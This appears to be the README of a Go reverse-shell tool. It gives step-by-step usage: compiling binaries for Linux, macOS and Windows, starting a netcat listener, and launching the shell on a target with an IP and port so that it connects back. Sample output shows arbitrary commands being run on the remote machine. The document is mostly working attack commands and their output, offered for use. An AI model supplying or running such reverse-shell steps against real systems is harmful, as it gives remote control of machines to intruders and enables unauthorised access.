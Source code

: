 # go-reverse-shell

## Usage


1. Compile the reverse shell:
```bash
make all
```

2. Get the compiled binary for the target system from artifcats directory:
```bash
$ tree
.
├──reverse-shell-darwin
├──reverse-shell-linux
└──reverse-shell-windows.exe
```

3. Start a listener on:

```bash
$ nc -nlvp 5000
```

4. Start reverse shell on target system:

```bash
$ ./reverse-shell -ip 10.93.10.17 -port 5000
```

This will establish a tcp connection between the listening machine and the target machine. 
If the connection was established successfully you can send arbitrary commands from the listening machine.

```bash
$ nc -nlvp 5000
ls -la
total 0
drwxr-xr-x  4 marco  staff  128 Sep 27 19:13 .
drwxr-xr-x  6 marco  staff  192 Sep 27 19:12 ..
-rw-r--r--  1 marco  staff    0 Sep 27 19:13 file1.txt
-rw-r--r--  1 marco  staff    0 Sep 27 19:13 file2.txt
```